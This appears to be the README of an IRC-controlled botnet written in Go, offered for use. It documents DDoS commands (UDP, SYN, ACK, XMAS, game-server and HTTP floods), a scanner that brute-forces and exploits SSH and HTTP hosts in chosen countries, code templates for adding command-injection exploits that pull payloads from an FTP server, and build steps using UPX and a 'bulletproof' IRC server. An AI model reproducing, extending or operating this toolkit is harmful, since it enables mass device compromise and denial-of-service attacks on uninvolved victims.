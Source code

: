 # IRC Commands
 	ATTACK VECTORS:
	
	# The min and max of attack size will be 50 - 1400 bytes. If you put over or lower size it will set to 100 automatically.

	?udp <src> <dst> <port> <size>                Just a normal UDP flood attack.
	?tcp <flag> <src> <dst> <port> <size>	      TCP flood with customizes flag.

		-syn            TCP flood with syn packet, just a normal SYN flood.
		-ack		TCP flood with ack packet, just a normal ACK flood.
		-psh		TCP flood with psh packet, just a normal PSH flood.
		-urg		TCP flood with urg packet, just a normal URG flood.
		-rst		TCP flood with RST packet, for broke a TCP connection between client and target server.
		-fin		TCP flood with FIN packet, to request close connection when target server is blocking a syn packet.

	?saf <src> <dst> <port> <size>                Flood by using TCP SYN+ACK flags to the target server.
	?xmas <src> <dst> <port> <size>		      Flood TCP packets by using all of the TCP flags to the target server.
	?vse <src> <dst> <port>			      Flood TSource Engine Query request to the target game server that used valve source engine.
	?fms <src> <dst>			      Flood query payload to a FiveM game server.
	?ipsec <src> <dst>			      Flood payload to overwhelm system resources of VPN service and make IPSec VPN connections being affected.
	?poling <url>			      	      Flood HTTP post-login requests to the target login web page, didn't do any of IP spoofing!!!
	?jumbo <url>				      Flood HTTP post request with a big XML payload, didn't do any of IP spoofing!!!
	?get <url>			      	      Flood HTTP get requests to the target website, didn't do any of IP spoofing!!!

	SCAN FUNCTION:
		
	# Example: ?scan -r ftp://1.2.3.4/bin/payload_x32 ftp://5.6.7.8/bin/payload_mips_x32 ftp://4.3.2.1/bin/payload_arm_x32
		
	?scan <network> <default> <mips> <arm>		Scan default SSH and HTTP port on the network. Brute-force attack, and exploit the target.

		-cn		Scan on China network.
		-usa		Scan on U.S.A network.
		-kr		Scan on south korea network.
		-br		Scan on brazil network.
		-r		Scan with random IPs.
		
	?update <default> <mips> <arm>          Update the bot source code or adapt it as a service.
	?info				        Get bot system information, for bot analysis, etc.
	?kill				        Bot self-close.
	?stopddos 			        Stop DDoS attacking.
	?stopscan			        Stop scanning.

# Scan Method
Option about the scan feature in this bot is to scope scan on CN, USA, KR, and BR networks by default. However, you can also do a random scan, or even add your own networks. All of these is up to you.
	
	# How to add more scanner network (Create your own scan mod).
	
	1) Go to the scanner.go file and add a new slice for your scan network.
	
		Example:
			
			var Italy_Network = []string {
				"123.456", //123.456.0.0/16
			}
						
	2) Go to the header.go file and scroll down to the map name "ScanMap".
	3) Customize your key and value. The value of the map is structure, so you need to call a value in the "Bot" structure and fill it.
	
		Example:
		
			"-fi": {				 // This key will be the command of a network arg in the "?scan" command.
				scanNetwork: Finland_Network, 	 // Fill the "scanNetwork" that's a value of the "Bot" structure. To your network slice.
				scanOptFull: "\"FINLAND\"",	 // Add the full name of the network for a reporting process.
				isRandom:    false,		 // Set "isRandom" to false because it's not a full random network.
			},
	
	4) Done... Just save it.
	
# Add/Customize Exploit
The vulnerability exploit that's used in this botnet will mostly be command injection exploits. You can add more new exploits if you want, but I recommend using a command injection vulnerability exploit. This is because you won't need to add or write anything more; you just need to configure it. I try to make the exploit feature easy and flexible to the configuration as much as i can. If the two examples down below is not enough, you can also see more examples in <b>"internal/exploit.go".</b>

	#################################################################
	### Example 1: In case that you want to add a new HTTP header ###
	#################################################################
	
	func (b *Bot) CVE_someYear_newCVE1() {
		
		// If you add a post exploit, then customize it with a JSON.
		// In case that your exploit needs to inject on a post body just call an inject function --> b.inject("default or MIPS", true)
		
		
		// This example will use default architecture so that's why we put "default" if your exploit use MIPS just put "mips".
		// Always put true because we are doing an exploit not scanning (The inject function has been reused in the scanner function).
			
		newCVE1, _ := json.Marshal(map[string]string{
			"example":      "something",
			"example":      "something"+b.inject("mips", true),
		})
		
		// This is just a HTTP header customization.
		// Incase your exploit needs to inject on a header just do the same with the body. 
		
		enewCVE1 := Exploit{
			exploitName:       "CVE_someYear_newCVE1",			// Customize the exploit name for a reporting process.
			exploitMethod:     "POST",					// Which HTTP method you will use for this exploit?
			exploitPath:       "example/something",				// Customize URL path.
			exploitBody:       strings.NewReader(string(newCVE1)),	        // Customize HTTP body.
			exploitAgent:      "example"+b.inject("mips", true),		// Customize HTTP agent.
			exploitAccept:     "example",					// Customize HTTP accept.
			exploitContType:   "example",					// Customize HTTP content type.
			exploitConnection: "example",					// Customize HTTP connection.
		}
		
		// If you want to add new header then just call it, like the example down below.
		
		_, newHeader := enewCVE1.setupExploit(b.tempIP)			// Use "enewCVE1" for calling the Exploit structure-function.
		newHeader.Header.Set("newHeader", "headerContent")		// Add a new header (header, header_content).
		b.exploitLauncher(enewCVE1, newHeader)				// Launch the exploit by putting the exploit structure and header in to "b.exploitLauncher(ourExploit, ourHeader)" function.
	}
	
	##################################################################
	### Example 2: In case you don't need to add a new HTTP header ###
	##################################################################
	
	// This example is the same as the first example in terms of header and body configs.
	
	func (b *Bot) CVE_someYear_newCVE2() {			
		newCVE2, _ := json.Marshal(map[string]string{
			"example":      "something",
			"example":      "something"+b.inject("", true),
		})
		enewCVE2 := Exploit{
			exploitName:       "CVE_someYear_newCVE2",			// Customize the exploit name for a reporting process.
			exploitMethod:     "POST",					// Which HTTP method you will use for this exploit?
			exploitPath:       "example/something",				// Customize URL path.
			exploitBody:       strings.NewReader(string(newCVE2)),	        // Customize HTTP body.
			exploitAgent:      "example"+b.inject("", true),		// Customize HTTP agent.
			exploitAccept:     "example",					// Customize HTTP accept.
			exploitContType:   "example",					// Customize HTTP content type.
			exploitConnection: "example",					// Customize HTTP connection.
		}

		b.exploitLauncher(enewCVE2,  b.selfRequest(enewCVE2))		// In the first example, you need to call "setupExploit" function but in this example, you don't need to call it.
										// Just call the "exploitLauncher" function and in the second argument using the "selfRequest" function instead of a newHeader value. 
										// Because we only use the default header set and then put our exploit structure into the "selfRequest" argument.
	}
	
# Attack Feature
The attack feature will mostly focus on the transport layer attack, but it will also include application and network layer attacks. All of the attack vectors, except for the "HTTP" DDoS attack vectors, will use random source ports and windows size automatically. However, the destination port will be configurable by the bot herder themselves.

	# ?tcp -syn 127.0.0.1 192.168.50.129 -r 100

<img src="assets/synflood.png" alt="synflood, DoS example">
	
# Build Payload

	chmod +x build.sh
	./build.sh <payload>
	
	# The bot system architecture is up to which payload you upload on your payload server.
	# If you upload x32 on your payload server, the bot that you have scanned will be only x32 arch.
	# The MIPS and ARM architecture is specific for doing an exploit only, so it doesn't count to the scan process!!!
	# To run the payload you need to run with root access!!!

# Requirements
<ul>
	<li>x1 Bulletproof IRC Server</li>
</ul>

<ul>
	<li>x1 Payload Hosting Server</li>
</ul>

<ul>
	<li>IRC Client</li>
</ul>

<ul>
	<li>Go Compiler</li>
</ul>

<ul>
	<li>UPX Packer</li>
</ul>

<ul>
	<li>Code\Text Editor</li>
</ul>
